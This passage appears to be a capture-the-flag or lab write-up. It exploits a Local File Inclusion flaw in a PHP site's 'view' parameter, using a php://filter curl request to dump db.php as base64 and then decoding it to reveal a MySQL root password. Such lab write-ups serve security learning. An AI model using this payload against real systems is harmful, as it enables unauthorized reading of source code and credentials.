 ```output
Date: Fri, 26 Sep 2025 14:10:02 GMT
Server: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/8.1.6
X-Powered-By: PHP/8.1.6
Set-Cookie: PHPSESSID=k3gk77a2i4cvufj4b6si4phocd; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 2311
Content-Type: text/html; charset=UTF-8

```

On visiting any of the pages, it’s going to take the html page name as a GET parameter `view`
![[Pasted image 20250926151246.png]]
So here we can try Local File Inclusion (LFI) to see if any of the local files get included

![[Pasted image 20250926151700.png]]
We can check the source of index.html file by using `php://filter` to encode the file contents in base64 as it might have php code which gets executed if it's in plain text
```bash
curl -i http://10.10.151.214/dev/index.html?view=php://filter/read=convert.base64-encode/resource=db.php
```

```output
PD9waHAgDQokc2VydmVybmFtZSA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIlN1cGVyU2VjdXJlTXlTUUxQYXNzdzByZDEzMzcuIjsNCg0KJGNvbm4gPSBteXNxbGlfY29ubmVjdCgkc2VydmVybmFtZSwgJHVzZXJuYW1lLCAkcGFzc3dvcmQpOw0KDQppZiAoISRjb25uKSB7DQogIGRpZSgiQ29ubmVjdGlvbiBmYWlsZWQ6ICIgLiBteXNxbGlfY29ubmVjdF9lcnJvcigpKTsNCn0NCmVjaG8gIkNvbm5lY3RlZCBzdWNjZXNzZnVsbHkiOw0KPz4
```

now we need to decrypt it

```bash
echo "PD9waHAgDQokc2VydmVybmFtZSA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIlN1cGVyU2VjdXJlTXlTUUxQYXNzdzByZDEzMzcuIjsNCg0KJGNvbm4gPSBteXNxbGlfY29ubmVjdCgkc2VydmVybmFtZSwgJHVzZXJuYW1lLCAkcGFzc3dvcmQpOw0KDQppZiAoISRjb25uKSB7DQogIGRpZSgiQ29ubmVjdGlvbiBmYWlsZWQ6ICIgLiBteXNxbGlfY29ubmVjdF9lcnJvcigpKTsNCn0NCmVjaG8gIkNvbm5lY3RlZCBzdWNjZXNzZnVsbHkiOw0KPz4" | base64 -d
```

```output
?php 
$servername = "localhost";
$username = "root";
$password = "SuperSecureMySQLPassw0rd1337.";

$conn = mysqli_connect($servername, $username, $password);

if (!$conn) {
  die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
?>                                

```
